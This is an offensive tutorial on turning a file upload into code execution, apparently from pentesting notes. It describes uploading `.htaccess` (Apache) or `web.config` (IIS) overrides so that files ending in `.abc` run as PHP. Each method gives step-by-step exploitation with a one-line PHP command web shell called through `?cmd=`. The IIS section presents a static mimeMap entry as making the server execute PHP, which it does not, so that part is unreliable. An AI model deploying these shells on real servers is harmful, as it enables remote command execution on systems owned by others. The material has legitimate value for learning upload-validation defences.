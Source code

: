 ## Reminder: What is a MIME Type?

When a server sends a file to the browser, it includes a `Content-Type` header to tell the browser what kind of file it is, such as:

```

Content-Type: image/png

```

This tells the browser to treat the file as an image. Similarly, if the MIME type is for PHP, the server will attempt to execute the file as a PHP script.

## 1. MIME Type Override via `.htaccess` (Apache Servers)

If the server is running Apache and allows you to upload `.htaccess` files, you can use this to override how certain file extensions are handled. You can trick the server into executing files with non-PHP extensions as if they were PHP.

### Example

Upload a `.htaccess` file with the following content:

```

AddType application/x-httpd-php .abc

````

This means: treat any file ending in `.abc` as a PHP script.

### Exploitation Steps

1. Upload a `.htaccess` file containing the above line.
2. Upload a web shell with a fake extension, e.g. `shell.abc`, with content like:
```php
   <?php system($_GET['cmd']); ?>
````

3. Access it using:

   ```
   https://target.com/uploads/shell.abc?cmd=whoami
   ```

If the server is not properly secured, it will execute the script.

### Conditions for Success

* The server must be running Apache.
* Apache must allow `.htaccess` to override settings (AllowOverride All).
* The server must allow uploading of `.htaccess`.
* There should be no strong validation preventing files like `.abc`.

## 2. MIME Type Override via `web.config` (IIS Servers)


On Windows servers using IIS, configuration is done via `web.config` files. You can upload a `web.config` to override MIME type mappings for specific extensions.

### Example

Upload a `web.config` file with the following content:

```xml
<configuration>
  <system.webServer>
    <staticContent>
      <mimeMap fileExtension=".abc" mimeType="application/x-httpd-php" />
    </staticContent>
  </system.webServer>
</configuration>
```

This tells the server to treat `.abc` files as PHP scripts.

### Exploitation Steps

1. Upload the `web.config` file.
2. Upload a shell file named `shell.abc` containing:

   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. Visit:

   ```
   https://target.com/uploads/shell.abc?cmd=whoami
   ```

If the configuration is accepted and not blocked, the server will execute the PHP code.

### Conditions for Success

* The server must be running IIS.
* The server must allow uploading of `web.config`.
* The MIME type mapping must be accepted.
* The extension (e.g., `.abc`) must not be blacklisted.

## Summary

| Server Type | Config File  | Method Used         | Goal                                   |
| ----------- | ------------ | ------------------- | -------------------------------------- |
| Apache      | `.htaccess`  | `AddType` directive | Execute non-PHP files as PHP           |
| IIS         | `web.config` | `<mimeMap>` XML tag | Map custom extensions to PHP MIME type |


